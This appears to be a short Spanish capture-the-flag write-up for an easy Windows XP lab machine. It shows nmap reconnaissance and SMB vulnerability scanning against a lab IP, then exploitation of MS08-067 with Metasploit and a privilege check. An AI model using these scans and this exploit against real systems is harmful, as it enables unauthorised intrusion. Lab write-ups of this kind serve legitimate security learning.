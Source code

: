 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Experience

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.139
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.139 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **135, 139 y 445** pertenecientes a servicios de **Microsoft RPC, NetBIOS-SSN y Microsoft-DS** están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.139
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un Windows XP. Revisamos el puerto 445.

```bash
nmap -p445 --script="smb-vuln-*" 192.168.1.139
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-01-31 185518.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Vamos explotar MS08-067 con Metasploit.

```bash
set RHOSTS 192.168.1.139
exploit
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
getuid
```

aún somos **root.**

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
